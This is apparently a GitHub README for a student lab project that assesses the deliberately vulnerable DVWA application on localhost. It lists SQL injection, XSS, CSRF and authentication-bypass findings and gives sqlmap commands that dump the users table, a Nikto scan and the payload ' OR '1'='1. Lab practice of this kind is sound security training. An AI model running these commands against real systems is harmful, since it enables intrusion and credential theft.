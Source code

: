 # 🔐 Web Application Security Testing (DVWA)

This project documents a hands-on vulnerability assessment of the **Damn Vulnerable Web Application (DVWA)** using industry-standard tools and manual testing methods.

---

## 📌 Project Overview
- **Project**: Vulnerability Assessment on DVWA  
- **Tools Used**: SQLMap, Nikto, Manual (Browser) Testing  
- **Environment**: Kali Linux 2025  
- **Prepared by**: RAWLINGS ODIERO  
- **Date**: August 2025  
- **Task**: FutureInterns – Task 1  

---

## 🧪 Vulnerabilities Identified
1. **SQL Injection** (manual + automated with SQLMap)
2. **Cross-Site Scripting (XSS)** – Reflected XSS + Cookie Disclosure
3. **Cross-Site Request Forgery (CSRF)** – Manual .html form
4. **Authentication Bypass** – `' OR '1'='1`
5. **Directory Listing & Server Misconfigurations** (Nikto)
6. **Apache Server Info Disclosure & PHP Shells** – via Nikto

---

## 🧰 Tools & Commands

### 🔸 SQLMap Automation
```bash
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=62872aa381f5f24da77630834bef64d1" --batch --dbs

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=62872aa381f5f24da77630834bef64d1" -D dvwa --tables

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=62872aa381f5f24da77630834bef64d1" -D dvwa -T users --dump

🔸 Nikto Scan
nikto -h http://127.0.0.1 -o dvwa-nikto-report.html -Format html

